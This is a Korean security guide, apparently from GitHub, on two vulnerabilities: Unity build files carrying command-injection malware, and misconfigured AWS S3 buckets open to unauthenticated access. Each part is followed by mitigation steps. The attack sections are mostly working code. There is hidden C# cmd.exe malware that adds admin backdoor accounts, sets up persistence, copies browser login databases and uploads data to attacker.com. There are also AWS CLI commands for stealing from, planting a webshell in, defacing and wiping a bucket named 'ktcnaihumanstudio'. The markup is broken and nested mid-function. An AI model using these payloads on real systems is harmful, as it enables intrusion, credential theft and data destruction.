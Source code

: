 <details>
<summary><strong>Unity Command Injection</strong></summary>

## 목차
1. [정의&원리](#1-정의원리)
2. [조치 가이드](#2-조치-가이드)

---

## 1. 정의&원리

### 유니티 파일 업로드 시스템 명령어 실행 취약점이란?
웹 사이트에서 유니티 빌드 파일을 업로드하는 기능에서, 악성 스크립트가 포함된 파일에 대한 적절한 검증 없이 업로드를 허용할 때 발생하는 취약점입니다. 사용자가 해당 파일을 실행하면 악성 스크립트를 통해 시스템 명령어가 실행될 수 있습니다.

### 취약점 발생 위치
- **서버 측**: 유니티 빌드 파일 업로드 처리 과정
- **클라이언트 측**: 업로드된 유니티 파일 실행 시점
- **실행 환경**: 사용자 브라우저 또는 유니티 런타임 환경

### 공격 시나리오

#### 일반적인 공격 과정:
1. **악성 스크립트 작성**: C# 스크립트에 시스템 명령어 실행 코드 삽입
2. **유니티 프로젝트 빌드**: 악성 스크립트가 포함된 유니티 파일 생성
3. **파일 업로드**: 웹사이트에 악성 유니티 파일 업로드
4. **사용자 유인**: 정상적인 게임이나 애플리케이션으로 위장
5. **실행 및 공격**: 사용자가 버튼 클릭 시 시스템 명령어 실행

### 취약한 코드 패턴

#### 기본적인 악성 스크립트 구조:
```csharp
using UnityEngine;
using System.Diagnostics;

public class OpenURL : MonoBehaviour 
{
    public void testURL() 
    {
        // 기본 시스템 명령어 실행
        string cmdCommand = "/c start explorer \"C:\\\" & taskmgr & pause";
        Process.Start("cmd.exe", cmdCommand);
    }
}
```

#### 고급 악성 스크립트 패턴:
```csharp
using UnityEngine;
using System.Diagnostics;
using System.Collections;

public class AdvancedMalware : MonoBehaviour
{
    void Start()
    {
        // 지연 실행으로 탐지 회피
        StartCoroutine(DelayedExecution());
    }
    
    IEnumerator DelayedExecution()
    {
        yield return new WaitForSeconds(10f);
        
        // 시스템 정보 수집
        ExecuteCommand("systeminfo > %temp%\\sysinfo.txt");
        
        yield return new WaitForSeconds(2f);
        
        // 네트워크 정보 수집
        ExecuteCommand("ipconfig /all >> %temp%\\sysinfo.txt");
        
        yield return new WaitForSeconds(2f);
        
        // 사용자 계정 생성
        ExecuteCommand("net user hacker password123 /add");
        
        // 관리자 그룹 추가
        ExecuteCommand("net localgroup administrators hacker /add");
    }
    
    void ExecuteCommand(string command)
    {
        try
        {
            ProcessStartInfo startInfo = new ProcessStartInfo();
            startInfo.FileName = "cmd.exe";
            startInfo.Arguments = "/c " + command;
            startInfo.WindowStyle = ProcessWindowStyle.Hidden;
            startInfo.CreateNoWindow = true;
            
            Process.Start(startInfo);
        }
        catch (System.Exception e)
        {
            Debug.Log("Command execution failed: " + e.Message);
        }
    }
}
```

### 공격 유형별 분류

#### 1.1. 직접 시스템 명령어 실행
```csharp
// 파일 시스템 조작
Process.Start("cmd.exe", "/c copy %USERPROFILE%\\Documents\\*.* %temp%\\stolen\\");

// 네트워크 스캔
Process.Start("cmd.exe", "/c for /L %i in (1,1,254) do ping -n 1 192.168.1.%i");

// 시스템 정보 수집
Process.Start("cmd.exe", "/c whoami /all > %temp%\\userinfo.txt");
```

#### 1.2. 권한 상승 시도
```csharp
// 관리자 계정 활성화
Process.Start("cmd.exe", "/c net user administrator /active:yes");

// 새로운 관리자 계정 생성
Process.Start("cmd.exe", "/c net user backdoor P@ssw0rd123! /add");
Process.Start("cmd.exe", "/c net localgroup administrators backdoor /add");

// UAC 우회 시도
Process.Start("cmd.exe", "/c reg add HKCU\\Software\\Classes\\ms-settings\\Shell\\Open\\command /v DelegateExecute /t REG_SZ");
```

#### 1.3. 지속성 확보
```csharp
// 시작 프로그램 등록
Process.Start("cmd.exe", "/c reg add HKLM\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run /v SystemUpdate /d C:\\temp\\malware.exe");

// 스케줄 작업 생성
Process.Start("cmd.exe", "/c schtasks /create /tn \"WindowsUpdate\" /tr \"C:\\temp\\backdoor.exe\" /sc daily /st 09:00");

// 서비스 등록
Process.Start("cmd.exe", "/c sc create BackdoorService binPath=\"C:\\temp\\service.exe\" start=auto");
```

#### 1.4. 데이터 탈취
```csharp
// 브라우저 데이터 수집
Process.Start("cmd.exe", "/c copy \"%LOCALAPPDATA%\\Google\\Chrome\\User Data\\Default\\Login Data\" %temp%\\chrome_data.db");
Process.Start("cmd.exe", "/c copy \"%APPDATA%\\Mozilla\\Firefox\\Profiles\\*.default\\logins.json\" %temp%\\");

// 문서 파일 수집
Process.Start("cmd.exe", "/c forfiles /p %USERPROFILE% /s /m *.pdf /c \"cmd /c copy @path %temp%\\docs\\\"");
Process.Start("cmd.exe", "/c forfiles /p %USERPROFILE% /s /m *.docx /c \"cmd /c copy @path %temp%\\docs\\\"");

// 데이터 외부 전송
Process.Start("cmd.exe", "/c curl -X POST -F \"file=@%temp%\\stolen_data.zip\" http://attacker.com/upload");
```

### 기술적 동작 원리

#### Unity WebGL vs Standalone 차이점:
```csharp
#if UNITY_WEBGL
    // WebGL에서는 일반적으로 System.Diagnostics.Process가 제한됨
    // 하지만 특정 조건에서 브라우저 API 활용 가능
    Application.ExternalEval("window.open('file:///C:/', '_blank');");
    
#elif UNITY_STANDALONE
    // Standalone 빌드에서는 직접적인 시스템 접근 가능
    Process.Start("cmd.exe", "/c dir C:\\ > %temp%\\directories.txt");
    
    // PowerShell 실행도 가능
    Process.Start("powershell.exe", "-Command Get-Process | Out-File %temp%\\processes.txt");
    
#endif
```

#### UI 이벤트와 연결:
```csharp
using UnityEngine;
using UnityEngine.UI;
using System.Diagnostics;

public class MaliciousButton : MonoBehaviour
{
    void Start()
    {
        // 버튼 컴포넌트 가져오기
        Button btn = GetComponent<Button>();
        
        // 클릭 이벤트에 악성 함수 연결
        btn.onClick.AddListener(() => {
            ExecuteMaliciousCode();
        });
        
        // 또는 다른 UI 이벤트 활용
        btn.onClick.AddListener(delegate { StartCoroutine(DelayedAttack()); });
    }
    
    void ExecuteMaliciousCode()
    {
        // 사용자가 버튼을 클릭하는 순간 실행
        Process.Start("cmd.exe", "/c taskmgr & explorer C:\\");
    }
    
    System.Collections.IEnumerator DelayedAttack()
    {
        // 5초 후 실행하여 의심을 피함
        yield return new WaitForSeconds(5f);
        
        Process.Start("cmd.exe", "/c net user attacker P@ssw0rd! /add /comment:\"System Account\"");
    }
}
```

---

## 2. 조치 가이드

### 2.1. 파일 업로드 검증

#### 2.1.1. 기본 파일 검증
```php
// 파일 확장자 및 크기 제한
$allowed_ext = ['unity3d', 'unityweb'];
$max_size = 10 * 1024 * 1024; // 10MB

if (!in_array($ext, $allowed_ext) || $file_size > $max_size) {
    reject_upload();
}
```

#### 2.1.2. 압축 파일 내용 스캔
```python
import zipfile
import re

def scan_unity_file(file_path):
    dangerous_patterns = [
        r'Process\.Start',
        r'System\.Diagnostics',
        r'cmd\.exe',
        r'net\s+user',
        r'reg\s+add'
    ]
    
    with zipfile.ZipFile(file_path, 'r') as zip_file:
        for file_info in zip_file.filelist:
            if file_info.filename.endswith('.cs'):
                content = zip_file.read(file_info).decode('utf-8', errors='ignore')
                
                for pattern in dangerous_patterns:
                    if re.search(pattern, content, re.IGNORECASE):
                        return False  # 위험한 패턴 발견
    
    return True  # 안전
```

### 2.2. 실행 환경 보안

#### 2.2.1. 샌드박스 실행 환경 구축
```bash
# Docker를 이용한 격리된 실행 환경
FROM ubuntu:20.04
RUN useradd -m -s /bin/bash unity_user
USER unity_user
WORKDIR /sandbox

# 네트워크 접근 차단
RUN iptables -A OUTPUT -j DROP

# 파일 시스템 접근 제한
RUN mount -o ro /usr/bin
```

#### 2.2.2. 브라우저 보안 정책
```html
<!-- Content Security Policy 적용 -->
<meta http-equiv="Content-Security-Policy" 
      content="default-src 'self'; script-src 'self' 'unsafe-eval';">

<!-- 권한 정책 제한 -->
<meta http-equiv="Permissions-Policy" 
      content="camera=(), microphone=(), geolocation=()">
```

### 2.3. 관리자 승인 시스템

#### 2.3.1. 수동 검토 프로세스
```sql
-- 승인 대기 테이블 생성
CREATE TABLE file_approvals (
    id INT AUTO_INCREMENT PRIMARY KEY,
    filename VARCHAR(255),
    upload_time DATETIME,
    status ENUM('pending', 'approved', 'rejected'),
    reviewer_id INT
);
```

#### 2.3.2. 48시간 검토 기간 설정
```php
// 업로드 후 48시간 대기 후 공개
$public_time = date('Y-m-d H:i:s', strtotime('+48 hours'));
$stmt = $pdo->prepare("UPDATE files SET public_time = ? WHERE id = ?");
$stmt->execute([$public_time, $file_id]);
```

### 2.4. 모니터링 시스템

#### 2.4.1. 실시간 로그 모니터링
```bash
# 시스템 명령어 실행 감지
tail -f /var/log/syslog | grep -E "(cmd.exe|powershell|net user)" | \
while read line; do
    echo "ALERT: Suspicious command detected - $line"
    # 관리자에게 알림 전송
done
```

#### 2.4.2. 파일 실행 추적
```javascript
// Unity WebGL 실행 시 모니터링
window.addEventListener('beforeunload', function(e) {
    // 비정상 종료 시 서버에 보고
    navigator.sendBeacon('/security-alert', {
        type: 'abnormal_exit',
        timestamp: new Date().toISOString()
    });
});
```

### 2.5. 응급 대응 절차

#### 2.5.1. 악성 파일 발견 시 조치
```bash
# 1. 즉시 파일 격리
mv /var/www/uploads/malicious_file.unity3d /quarantine/

# 2. 접근 로그 확인
grep "malicious_file" /var/log/apache2/access.log

# 3. 영향받은 사용자 파악
mysql -e "SELECT user_id, access_time FROM access_logs WHERE file_name LIKE '%malicious_file%'"
```

#### 2.5.2. 사용자 알림 및 조치
```php
// 긴급 보안 알림 발송
function send_security_alert($affected_users) {
    foreach ($affected_users as $user) {
        mail($user['email'], 
             '보안 알림', 
             '최근 실행하신 파일에서 보안 위험이 발견되어 제거했습니다. PC 검사를 권장합니다.');
    }




<details>
<summary><strong>AWS S3 Unauthorized Access</strong></summary>

## 목차
1. [정의&원리](#1-정의원리)
2. [조치 가이드](#2-조치-가이드)

---

## 1. 정의&원리

### AWS S3 무인증 접근 취약점이란?
AWS S3 버킷이 잘못 구성되어 인증 없이 접근 가능할 때 발생하는 취약점입니다. `--no-sign-request` 옵션을 사용하여 AWS CLI를 통해 인증 절차 없이 S3 버킷에 접근하여 파일 업로드, 다운로드, 나열 등의 작업을 수행할 수 있습니다.

### 취약점 발생 위치
- **AWS S3 버킷**: 퍼블릭 접근이 허용된 S3 버킷
- **버킷 정책**: 잘못 구성된 IAM 정책 및 ACL 설정
- **접근 제어**: 인증 및 권한 검증 우회

### 공격 시나리오

#### 일반적인 공격 과정:
1. **버킷 발견**: 공개된 S3 버킷 URL 또는 버킷명 수집
2. **AWS CLI 설치**: 공격자 시스템에 AWS CLI 도구 설치
3. **무인증 접근**: `--no-sign-request` 옵션으로 인증 우회
4. **권한 확인**: 버킷 내 파일 목록 조회 및 권한 테스트
5. **데이터 탈취/조작**: 파일 다운로드, 업로드, 삭제 등 수행

### 취약한 설정 패턴

#### 기본 공격 명령어:
```bash
# 1. 버킷 내 파일 목록 조회
aws s3 ls s3://ktcnaihumanstudio --no-sign-request --no-verify-ssl

# 2. 버킷 내 모든 파일 나열 (재귀적)
aws s3 ls s3://ktcnaihumanstudio --recursive --no-sign-request --no-verify-ssl

# 3. 특정 파일 다운로드
aws s3 cp s3://ktcnaihumanstudio/sensitive_data.txt ./stolen_data.txt --no-sign-request --no-verify-ssl

# 4. 악성 파일 업로드
aws s3 cp malicious_file.php s3://ktcnaihumanstudio/uploads/ --no-sign-request --no-verify-ssl

# 5. 버킷 전체 동기화 (모든 파일 다운로드)
aws s3 sync s3://ktcnaihumanstudio ./stolen_bucket --no-sign-request --no-verify-ssl
```

### 공격 유형별 분류

#### 1.1. 데이터 탈취
```bash
# 민감한 파일 검색 및 다운로드
aws s3 ls s3://ktcnaihumanstudio --recursive --no-sign-request | grep -E "\.(pdf|docx|xlsx|txt|log)$"

# 설정 파일 탈취
aws s3 cp s3://ktcnaihumanstudio/.env ./config_files/ --no-sign-request
aws s3 cp s3://ktcnaihumanstudio/config/database.yml ./config_files/ --no-sign-request

# 로그 파일 수집
aws s3 sync s3://ktcnaihumanstudio/logs/ ./stolen_logs/ --no-sign-request

# 백업 파일 탈취
aws s3 cp s3://ktcnaihumanstudio/backups/db_backup.sql ./database_backup.sql --no-sign-request
```

#### 1.2. 악성 파일 업로드
```bash
# 웹쉘 업로드
echo '<?php system($_GET["cmd"]); ?>' > webshell.php
aws s3 cp webshell.php s3://ktcnaihumanstudio/public/shell.php --no-sign-request

# 피싱 페이지 업로드
aws s3 cp fake_login.html s3://ktcnaihumanstudio/login.html --no-sign-request

# 멀웨어 배포
aws s3 cp malware.exe s3://ktcnaihumanstudio/downloads/update.exe --no-sign-request

# 대용량 파일 업로드 (서비스 방해)
dd if=/dev/zero of=large_file.bin bs=1M count=1000  # 1GB 파일 생성
aws s3 cp large_file.bin s3://ktcnaihumanstudio/ --no-sign-request
```

#### 1.3. 버킷 내용 조작
```bash
# 기존 파일 삭제
aws s3 rm s3://ktcnaihumanstudio/important_file.txt --no-sign-request

# 파일 덮어쓰기
echo "Hacked by attacker" > hacked.txt
aws s3 cp hacked.txt s3://ktcnaihumanstudio/index.html --no-sign-request

# 버킷 전체 삭제 (가능한 경우)
aws s3 rm s3://ktcnaihumanstudio --recursive --no-sign-request
```

#### 1.4. 정보 수집 및 정찰
```bash
# 버킷 정책 확인
aws s3api get-bucket-policy --bucket ktcnaihumanstudio --no-sign-request

# 버킷 ACL 조회
aws s3api get-bucket-acl --bucket ktcnaihumanstudio --no-sign-request

# 버킷 위치 확인
aws s3api get-bucket-location --bucket ktcnaihumanstudio --no-sign-request

# 버킷 버전 관리 상태 확인
aws s3api get-bucket-versioning --bucket ktcnaihumanstudio --no-sign-request

# 멀티파트 업로드 상태 확인
aws s3api list-multipart-uploads --bucket ktcnaihumanstudio --no-sign-request
```

### 기술적 동작 원리

#### AWS CLI 옵션 설명:
```bash
# --no-sign-request: AWS 인증 서명 없이 요청
# --no-verify-ssl: SSL 인증서 검증 생략
# --recursive: 하위 디렉토리까지 재귀적 처리
# --dryrun: 실제 실행 없이 명령어 테스트

# 실제 명령어 구조
aws s3 [command] [source] [destination] [options]
```

#### 잘못된 S3 버킷 정책 예시:
```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "PublicReadGetObject",
            "Effect": "Allow",
            "Principal": "*",
            "Action": [
                "s3:GetObject",
                "s3:GetObjectVersion",
                "s3:ListBucket",
                "s3:PutObject"
            ],
            "Resource": [
                "arn:aws:s3:::ktcnaihumanstudio",
                "arn:aws:s3:::ktcnaihumanstudio/*"
            ]
        }
    ]
}
```

#### 취약한 ACL 설정:
```bash
# 모든 사용자에게 읽기/쓰기 권한 부여 (위험)
aws s3api put-bucket-acl --bucket ktcnaihumanstudio --acl public-read-write

# 인증된 사용자에게 모든 권한 부여 (위험)
aws s3api put-bucket-acl --bucket ktcnaihumanstudio --acl authenticated-read
```

---

## 2. 조치 가이드

### 2.1. 버킷 접근 제어 강화

#### 2.1.1. 버킷 정책 수정
```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "DenyPublicAccess",
            "Effect": "Deny",
            "Principal": "*",
            "Action": "s3:*",
            "Resource": [
                "arn:aws:s3:::ktcnaihumanstudio",
                "arn:aws:s3:::ktcnaihumanstudio/*"
            ],
            "Condition": {
                "StringNotEquals": {
                    "aws:PrincipalServiceName": [
                        "cloudfront.amazonaws.com"
                    ]
                }
            }
        }
    ]
}
```

#### 2.1.2. 퍼블릭 액세스 차단
```bash
# S3 퍼블릭 액세스 완전 차단
aws s3api put-public-access-block \
    --bucket ktcnaihumanstudio \
    --public-access-block-configuration \
    "BlockPublicAcls=true,IgnorePublicAcls=true,BlockPublicPolicy=true,RestrictPublicBuckets=true"
```

### 2.2. IAM 정책 강화

#### 2.2.1. 최소 권한 원칙 적용
```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Action": [
                "s3:GetObject"
            ],
            "Resource": "arn:aws:s3:::ktcnaihumanstudio/public/*",
            "Condition": {
                "StringEquals": {
                    "s3:x-amz-acl": "bucket-owner-full-control"
                }
            }
        }
    ]
}
```

#### 2.2.2. MFA 인증 강제
```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Deny",
            "Principal": "*",
            "Action": "s3:*",
            "Resource": [
                "arn:aws:s3:::ktcnaihumanstudio",
                "arn:aws:s3:::ktcnaihumanstudio/*"
            ],
            "Condition": {
                "BoolIfExists": {
                    "aws:MultiFactorAuthPresent": "false"
                }
            }
        }
    ]
}
```

### 2.3. 모니터링 설정

#### 2.3.1. CloudTrail 로그 모니터링
```bash
# S3 접근 로그 조회
aws logs filter-log-events \
    --log-group-name CloudTrail/S3DataEvents \
    --filter-pattern "{ $.eventName = GetObject || $.eventName = PutObject }"
```

#### 2.3.2. CloudWatch 알람 설정
```bash
# 비정상적인 S3 접근 알람
aws cloudwatch put-metric-alarm \
    --alarm-name "S3-Unauthorized-Access" \
    --alarm-description "Detect unauthorized S3 access" \
    --metric-name "UnauthorizedApiCalls" \
    --namespace "AWS/S3" \
    --statistic "Sum" \
    --period 300 \
    --threshold 5 \
    --comparison-operator "GreaterThanThreshold"
```

### 2.4. 응급 대응 절차

#### 2.4.1. 즉시 버킷 격리
```bash
# 1. 퍼블릭 액세스 즉시 차단
aws s3api put-public-access-block \
    --bucket ktcnaihumanstudio \
    --public-access-block-configuration \
    "BlockPublicAcls=true,IgnorePublicAcls=true,BlockPublicPolicy=true,RestrictPublicBuckets=true"

# 2. 버킷 정책 제거
aws s3api delete-bucket-policy --bucket ktcnaihumanstudio
```

#### 2.4.2. 보안 감사
```bash
# 최근 접근 로그 분석
aws s3api get-bucket-logging --bucket ktcnaihumanstudio

# 업로드된 파일 점검
aws s3 ls s3://ktcnaihumanstudio --recursive | grep -E "\.(php|jsp|asp|exe)$"
```

</details>
}
```

</details>
